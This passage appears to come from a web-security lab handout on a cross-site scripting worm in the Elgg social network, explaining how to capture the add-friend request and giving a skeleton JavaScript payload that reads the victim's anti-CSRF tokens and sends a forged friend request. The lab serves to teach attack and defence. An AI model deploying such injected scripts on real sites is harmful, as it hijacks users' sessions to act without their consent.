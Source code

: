To add a friend for the victim, we should first find out how a legitimate user adds a friend in _Elgg_. More
specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’sHTTP
inspection tool can help us get the information. It can display the contents of any HTTP request message
sent from the browser. From the contents, we can identify all the parameters in the request. Section 5
provides guidelines on how to use the tool.
    
Once we understand what the add-friend HTTP request look like, we can write a JavaScript program to
send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.
```
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ¿
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ¡

    //Construct the HTTP request to add Samy as a friend.
    var sendurl=...; //FILL IN

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

![alt text](images/Task3.5_samy_code_update_3.png)
